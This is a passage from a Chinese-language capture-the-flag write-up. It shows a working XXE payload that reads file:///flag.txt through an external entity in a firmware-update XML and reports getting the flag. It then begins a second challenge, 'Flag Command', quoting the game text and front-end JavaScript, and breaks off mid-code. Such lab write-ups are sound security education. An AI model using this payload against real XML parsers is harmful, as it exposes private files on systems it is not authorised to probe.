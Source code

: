 但是几次测试观察一下来，这个版本是一个变量输出

![image-20250830214238440](https://raw.githubusercontent.com/bx33661/Picgo/main/20250830230231582.png)

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <name>&xxe;</name>
  </Firmware>
</FirmwareUpdateConfig>

```

成功是XXE注入，最后得到flag

![image-20250830214513005](https://raw.githubusercontent.com/bx33661/Picgo/main/20250830230307320.png)



### Flag Command

> Embark on the "Dimensional Escape Quest" where you wake up in a mysterious forest maze that's not quite of this world. Navigate singing squirrels, mischievous nymphs, and grumpy wizards in a whimsical labyrinth that may lead to otherworldly surprises. Will you conquer the enchanted maze or find yourself lost in a different dimension of magical challenges? The journey unfolds in this mystical escape!
> 踏上"维度逃脱大冒险"，你醒来在一个神秘森林迷宫中，这里似乎不属于这个世界。在充满奇幻的迷宫里，你需要引导会唱歌的松鼠、淘气的仙子，以及脾气古怪的巫师。这个奇妙的迷宫可能会带你去往另一个世界，带来意想不到的惊喜。你能否征服这个魔法迷宫，还是会在魔法挑战的另一个维度中迷失？这场神秘的逃脱之旅就此展开！

进来按照他的指令随便测试并没有发现什么

![image-20250830215143029](https://raw.githubusercontent.com/bx33661/Picgo/main/20250830230235562.png)

具体看一下前端代码

```javascript
export const START = 'YOU WAKE UP IN A FOREST.';

export const INITIAL_OPTIONS = [
    '<span class="command">You have 4 options!</span>',
    'HEAD NORTH',
    'HEAD SOUTH',
    'HEAD EAST',
    'HEAD WEST'
];

export const GAME_LOST =  'You <span class="command error">died</span> and couldn\'t escape the forest. Press <span class="command error">restart</span> to try again.';

export const GAME_WON = 'You <span class="command success">escaped</span> the forest and <span class="command success">won</span> the game! Congratulations! Press <span class="command success">restart</span> to play again.';

export const INFO = [
    "You abruptly find yourself lucid in the middle of a bizarre, alien forest.",
    "How the hell did you end up here?",
    "Eerie, indistinguishable sounds ripple through the gnarled trees, setting the hairs on your neck on edge.",
    "Glancing around, you spot a gangly, grinning figure lurking in the shadows, muttering 'Xclow3n' like some sort of deranged mantra, clearly waiting for you to pass out or something. Creepy much?",
    "Heads up! This forest isn't your grandmother's backyard.",
```